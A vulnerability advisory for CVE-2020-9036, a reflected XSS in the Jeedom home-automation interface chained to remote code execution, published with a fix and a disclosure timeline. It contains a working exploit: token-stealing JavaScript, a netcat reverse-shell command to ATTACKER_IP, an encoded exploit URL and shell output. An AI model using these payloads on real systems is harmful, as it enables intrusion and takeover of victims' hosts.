# [CVE-2020-9036] Jeedom XSS leading to Remote Code Execution

## Description

Jeedom is a home automation solution used in IoT.

We discovered an XSS (cross-site-scripting) injection that can lead to a remote code execution.

**Threat**

The Jeedom application does not handle user input correctly, allowing client-side JavaScript code injection (XSS).

In this case, the vulnerability could be used to remotely execute commands against the system hosting the application.


**Expectation**

User input / output should be filtered to avoid arbitrary web code injection.


## Vulnerability records

**CVE ID**: CVE-2020-9036

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-80

**CVSS Base Score**: 8.8

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H


## Details

We identified a reflected cross-site scripting injection (XSS).

Moreover, an integrated feature could be used to execute commands against the system, but it requires an anti-CSRF token and valid session cookies.

To achieve this exploitation path, we built a JavaScript payload for the XSS that:

* fetch the anti-CSRF token from the body of another page by making an HTTP request ;
* send commands for execution within another HTTP request, along with the anti-CSRF token.

## Proof of Concept 1 : Simple XSS to execute alert function

Here is the affected URL, with a simple JavaScript payload that executes the alert function:

`http://URL/index.php?v=d&p=%22;alert(1);%22`

The insecure PHP code follows. Note how the user input is added without filtering to the HTML output:

```
try {
			if ( init('p') != 'message' && !isset($_GET['configure']) && !isset($_GET['modal']) ) {
				$title = pageTitle(init('p')) . ' - ' . config::byKey('product_name');
				echo '<script>';
				echo 'document.title = "' . $title . '"';
				echo '</script>';
			}
		}
```

Here is the result, including the injected payload in the HTTP response body:

```
$ curl -v "http://URL/index.php?v=d&p=%22;alert(1);%22" |grep alert

<script>document.title = "";alert(1);" - Jeedom"</script>
```

![XSS screenshot 1](xss1.png)


## Proof of Concept 2 : XSS to Remote Code Execution

The authenticated web functionality used to execute code against the system requires valid session cookies and anti-CSRF token.

We can use the following payload to fetch the anti-CSRF token:

```
var x = new XMLHttpRequest();
x.open("GET","/index.php?v=d&p=administration",false);
x.send(null);
t = x.responseText.split("JEEDOM_AJAX_TOKEN='")[1].split("';")[0]
```

We added some code to request it using the HTTP POST method, using the previously intercepted token:

```
var x = new XMLHttpRequest();
x.open("POST", "/core/ajax/jeedom.ajax.php", true);
x.setRequestHeader("Content-Type", "application/x-www-form-urlencoded;");
p = "jeedom_token=" + t + "&action=ssh&command=" + "nc ATTACKER_IP 4444 -e /bin/bash";
x.send(p);
```

After encoding and joining both parts, we obtain a URL like this:

`http://URL/index.php?v=d&p=%22%3b%76%61%72%20%78%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%20%20%20%20%20%20%78%2e%6f%70%65%6e%28%22%47%45%54%22%2c%22%2f%69%6e%64%65%78%2e%70%68%70%3f%76%3d%64%26%70%3d%61%64%6d%69%6e%69%73%74%72%61%74%69%6f%6e%22%2c%66%61%6c%73%65%29%3b%0a%20%20%20%20%20%20%78%2e%73%65%6e%64%28%6e%75%6c%6c%29%3b%0a%20%20%20%20%20%20%74%20%3d%20%78%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%2e%73%70%6c%69%74%28%22%4a%45%45%44%4f%4d%5f%41%4a%41%58%5f%54%4f%4b%45%4e%3d%27%22%29%5b%31%5d%2e%73%70%6c%69%74%28%22%27%3b%22%29%5b%30%5d%0a%20%20%20%20%20%20%76%61%72%20%78%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%20%20%20%20%20%20%78%2e%6f%70%65%6e%28%22%50%4f%53%54%22%2c%20%22%2f%63%6f%72%65%2f%61%6a%61%78%2f%6a%65%65%64%6f%6d%2e%61%6a%61%78%2e%70%68%70%22%2c%20%74%72%75%65%29%3b%0a%20%20%20%20%20%20%78%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6f%6e%74%65%6e%74%2d%54%79%70%65%22%2c%20%22%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%3b%22%29%3b%0a%20%20%20%20%20%20%70%20%3d%20%22%6a%65%65%64%6f%6d%5f%74%6f%6b%65%6e%3d%22%20%2b%20%74%20%2b%20%22%26%61%63%74%69%6f%6e%3d%73%73%68%26%63%6f%6d%6d%61%6e%64%3d%22%20%2b%20%22%6e%63%20%31%39%32%2e%31%36%38%2e%31%2e%38%36%20%34%34%34%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%22%3b%0a%20%20%20%20%20%20%78%2e%73%65%6e%64%28%70%29%3b%3b%22`


If an authenticated victim visits the previous URL address, the attacker gets a reverse shell, as shown below:

```
$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.1.86.
Ncat: Connection from 192.168.1.86:49391.
python -c "import pty;pty.spawn('/bin/bash')"
www-data@debian:/var/www/html/core/ajax$ whoami
whoami
www-data
```

![XSS screenshot 2](xss3.png)


## Affected versions

* Jeedom version <= 4.0.38

## Solution

* Update to commit: fafe84cb9bbd491a931748e7b4fe7d2851877a33 (https://github.com/jeedom/core/commit/fafe84cb9bbd491a931748e7b4fe7d2851877a33)
* Install from the git master branch https://github.com/jeedom/core


## Timeline (dd/mm/yyyy)

* 2020-01-31 Initial discovery.
* 2020-02-07 Contacting Jeedom security team.
* 2020-02-07 Jeedom acknowledgement stating that the report is under review.
* 2020-02-18 XSS fix published (commit fafe84cb9bbd491a931748e7b4fe7d2851877a33).
* 2020-08-05 Disclosure.


## Credits

* Mickael KARATEKIN <mickael.karatekin -at- tnpconsultants.com>
